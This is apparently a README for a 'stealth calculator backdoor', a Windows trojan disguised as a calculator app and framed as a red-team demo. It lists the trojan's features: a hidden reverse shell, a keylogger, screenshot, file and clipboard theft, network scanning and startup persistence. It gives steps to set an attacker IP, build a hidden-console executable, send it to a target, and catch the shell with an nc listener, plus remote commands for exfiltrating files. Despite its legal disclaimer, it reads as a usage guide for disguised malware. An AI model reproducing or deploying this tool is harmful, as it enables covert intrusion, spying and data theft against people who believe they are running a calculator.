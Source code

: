 # Stealth Calculator Backdoor (Red Team Demo)

**WARNING: For educational, red team, and authorized penetration testing use only. Unauthorized use is illegal and unethical.**

---

## Features
- iPhone-style calculator UI (Tkinter, Windows-ready)
- Stealth reverse shell (persistent, hidden, auto-reconnect)
- Keylogger, screenshot, file stealer, clipboard stealer, network scanner
- Remote kill switch and self-destruction
- Advanced persistence: copies to hidden location, adds to Windows startup

---

## Setup & Build

1. **Install dependencies** (in this folder):
   ```bash
   pip install -r requirements.txt
   ```

2. **Set your attacker IP and port**
   - Edit `calculator.py` and set:
     ```python
     ATTACKER_IP = "YOUR_KALI_IP"
     ATTACKER_PORT = 4444
     ```

3. **Build the executable**
   ```bash
   pyinstaller --onefile --noconsole calculator.py
   ```
   - The resulting file will be in `dist/calculator.exe`.

4. **Deploy**
   - Send only the `.exe` to the target Windows machine.

---

## Attacker Usage

1. **Start a listener on Kali**
   ```bash
   nc -lvnp 4444
   ```
2. **Wait for the user to press '=' in the calculator**
3. **Use these commands in your shell:**
   - `KILL` — Remotely self-destructs the calculator and removes persistence
   - `GET_KEYLOG` — Retrieve keystrokes
   - `GET_SCREENSHOT` — Get a screenshot
   - `STEAL_FILES .docx .pdf .txt` — Exfiltrate files by extension
   - `GET_CLIPBOARD` — Get clipboard contents
   - `SCAN_LAN` — Scan the local network for live hosts

---

## Legal Notice
- For authorized security testing and education only.
- The authors are not responsible for misuse or damages. 